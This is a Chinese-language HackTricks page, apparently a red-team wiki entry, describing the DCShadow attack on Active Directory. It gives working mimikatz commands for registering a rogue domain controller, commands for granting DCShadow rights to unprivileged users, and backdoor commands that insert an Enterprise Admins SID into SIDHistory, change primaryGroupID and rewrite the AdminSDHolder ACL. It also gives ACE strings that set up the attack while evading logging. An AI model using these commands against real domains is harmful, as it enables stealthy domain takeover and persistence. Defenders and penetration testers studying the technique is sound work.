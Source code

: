 {% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}


# DCShadow

它在 AD 中注册一个 **新的域控制器**，并使用它在指定对象上 **推送属性**（SIDHistory, SPNs...），**不**留下任何关于 **修改** 的 **日志**。你 **需要 DA** 权限并且在 **根域** 内。\
请注意，如果使用错误的数据，会出现相当难看的日志。

要执行攻击，你需要 2 个 mimikatz 实例。其中一个将以 SYSTEM 权限启动 RPC 服务器（你必须在这里指明你想要执行的更改），另一个实例将用于推送值：

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - 需要 DA 或类似权限" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

注意 **`elevate::token`** 在 `mimikatz1` 会话中无法工作，因为这提升了线程的权限，但我们需要提升 **进程的权限**。\
您还可以选择并“LDAP”对象：`/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

您可以从 DA 或具有以下最小权限的用户推送更改：

* 在 **域对象**中：
* _DS-Install-Replica_（在域中添加/删除副本）
* _DS-Replication-Manage-Topology_（管理复制拓扑）
* _DS-Replication-Synchronize_（复制同步）
* **配置容器**中的 **站点对象**（及其子对象）：
* _CreateChild 和 DeleteChild_
* 作为 DC 注册的 **计算机对象**：
* _WriteProperty_（不是 Write）
* **目标对象**：
* _WriteProperty_（不是 Write）

您可以使用 [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) 将这些权限授予无特权用户（注意这会留下某些日志）。这比拥有 DA 权限要严格得多。\
例如：`Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` 这意味着用户名 _**student1**_ 在机器 _**mcorp-student1**_ 上登录时对对象 _**root1user**_ 拥有 DCShadow 权限。

## 使用 DCShadow 创建后门

{% code title="将 SIDHistory 中的企业管理员设置为用户" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="更改 PrimaryGroupID (将用户作为域管理员的成员)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="修改 AdminSDHolder 的 ntSecurityDescriptor（给予用户完全控制权限）" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - 使用 DCShadow 授予 DCShadow 权限（无修改权限日志）

我们需要在用户的 SID 末尾附加以下 ACE：

* 在域对象上：
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* 在攻击者计算机对象上：`(A;;WP;;;UserSID)`
* 在目标用户对象上：`(A;;WP;;;UserSID)`
* 在配置容器中的站点对象上：`(A;CI;CCDC;;;UserSID)`

要获取对象的当前 ACE：`(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

请注意，在这种情况下，您需要进行**多个更改，**而不仅仅是一个。因此，在**mimikatz1 会话**（RPC 服务器）中，使用参数 **`/stack` 进行每个更改**。这样，您只需**`/push`** 一次即可在流氓服务器上执行所有堆积的更改。



[**有关 DCShadow 的更多信息，请访问 ired.team。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
